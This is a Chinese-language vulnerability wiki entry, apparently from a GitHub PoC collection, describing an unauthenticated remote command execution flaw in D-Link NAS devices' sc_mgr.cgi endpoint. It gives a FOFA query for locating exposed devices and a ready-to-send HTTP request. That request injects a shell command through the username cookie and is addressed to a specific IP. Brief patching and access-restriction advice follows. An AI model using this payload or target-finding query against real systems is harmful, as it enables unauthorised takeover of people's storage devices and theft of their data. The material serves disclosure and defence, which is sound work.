


# D-Link NAS设备 sc_mgr.cgi 未授权RCE漏洞

# 漏洞描述

D-Link NAS设备 /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info 接口存在远程命令执行漏洞，未经身份验证的远程攻击者可利用此漏洞执行任意系统命令，写入后门文件，获取服务器权限。

# 影响版本

D-Link NAS设备

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/cgi-bin/login_mgr.cgi"  &&  body="cmd=cgi_get_ssl_info"

POC/EXP：

GET /cgi-bin/sc_mgr.cgi?cmd=SC_Get_Info HTTP/1.1
Host: 81.98.246.72
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Cookie: username=mopfdfsewo'& ifconfig & echo 'mopfdfsewo;

影响独立ip资产4w+

# 漏洞修复

应用补丁和更新： 用户应下载并安装 D-Link 提供的任何固件更新。

限制网络访问： 作为临时措施，对 NAS 管理界面的网络访问应仅限于受信任的 IP 地址。

监控固件更新： 受影响的设备用户应密切关注 D-Link 即将提供的任何安全补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
